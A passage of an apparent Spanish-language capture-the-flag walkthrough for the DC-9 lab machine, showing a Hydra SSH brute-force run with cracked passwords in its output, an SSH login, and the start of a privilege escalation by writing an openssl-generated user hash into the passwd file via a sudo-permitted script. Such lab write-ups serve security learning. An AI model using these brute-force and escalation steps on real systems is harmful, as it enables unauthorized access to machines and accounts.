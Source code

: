 realizo un nuevo ataque de fuerza bruta con las passwords obtenidas

```bash
hydra -L users.txt -P newpasswords 192.168.34.5 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-17 20:34:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 102 login tries (l:17/p:6), ~7 tries per task
[DATA] attacking ssh://192.168.34.5:22/
[22][ssh] host: 192.168.34.5   login: fredf   password: B4-Tru3-001
[22][ssh] host: 192.168.34.5   login: joeyt   password: Passw0rd
1 of 1 target successfully completed, 2 valid passwords found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-17 20:34:58
```
## Escalada de Privilegios

Inicio de sesión como fredf

```bash
ssh fredf@192.168.34.5
```

Ejecutamos sudo -l y vemos que tenemos permisos para ejecutar el siguiente script

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2015.png)

lo ejecuto para ver como funciona

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2016.png)

Parece que se le introducen dos ficheros el primero que lee y el segundo al que es añadido el  contenido del primero por lo que para escalar privilegios voy a crear un usuario y lo voy a añadir al archivo passwd

Creación del hash del usuario (Password 123)

```bash
openssl passwd -1
$1$buZKpXN3$NPI6IUJkJTJKQTwGdqfyo1
```

